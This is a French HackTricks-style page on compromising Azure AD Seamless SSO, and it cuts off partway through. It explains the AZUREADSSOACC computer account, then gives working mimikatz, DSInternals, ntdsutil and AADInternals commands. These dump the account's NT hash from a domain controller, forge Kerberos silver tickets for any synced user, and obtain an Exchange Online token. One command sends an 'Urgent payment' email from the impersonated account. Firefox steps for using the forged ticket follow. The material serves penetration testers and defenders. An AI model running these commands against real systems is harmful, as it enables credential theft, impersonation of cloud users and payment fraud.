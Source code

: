 # Seamless SSO

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>

## Informations de base

Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) connecte automatiquement les utilisateurs lorsqu'ils sont sur leurs appareils d'entreprise connectés à votre réseau d'entreprise. Lorsqu'il est activé, les utilisateurs n'ont pas besoin de taper leur mot de passe pour se connecter à Azure AD, et généralement, même pas leur nom d'utilisateur. Cette fonctionnalité permet à vos utilisateurs d'accéder facilement à vos applications basées sur le cloud sans avoir besoin de composants supplémentaires sur site.

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Essentiellement, Azure AD Seamless SSO connecte les utilisateurs lorsqu'ils sont sur un PC joint à un domaine local.

Il est pris en charge à la fois par [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) et [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Le SSO de bureau utilise **Kerberos** pour l'authentification. Lorsqu'il est configuré, Azure AD Connect crée un **compte d'ordinateur appelé AZUREADSSOACC** dans AD local. Le mot de passe du compte AZUREADSSOACC est **envoyé en texte clair à Azure AD** pendant la configuration.

Les **tickets Kerberos** sont **cryptés** en utilisant le **NTHash (MD4)** du mot de passe et Azure AD utilise le mot de passe envoyé pour décrypter les tickets.

**Azure AD** expose un **point de terminaison** (https://autologon.microsoftazuread-sso.com) qui accepte les **tickets Kerberos**. Le navigateur de la machine jointe au domaine transmet les tickets à ce point de terminaison pour le SSO.

### Sur site -> cloud

Le **mot de passe** de l'utilisateur **AZUREADSSOACC ne change jamais**. Par conséquent, un administrateur de domaine pourrait compromettre le **hash de ce compte**, puis l'utiliser pour **créer des tickets silver** pour se connecter à Azure avec **n'importe quel utilisateur synchronisé sur site** :

```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
 mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```

Avec le hash, vous pouvez maintenant **générer des tickets silver** :

```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```

Pour utiliser le ticket silver :

1. Lancez _Mozilla Firefox_.
2. Allez sur **`about:config`** et définissez la préférence [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) sur la [valeur](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Accédez à n'importe quelle application Web intégrée à notre domaine AAD. Nous utiliserons [Office 365](https://portal.office.com/), qui est la plus couramment utilisée.
4. Une fois sur l'écran de connexion, remplissez le nom d'utilisateur, en laissant le champ de mot de passe vide. Ensuite, appuyez sur TAB ou ENTER.

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></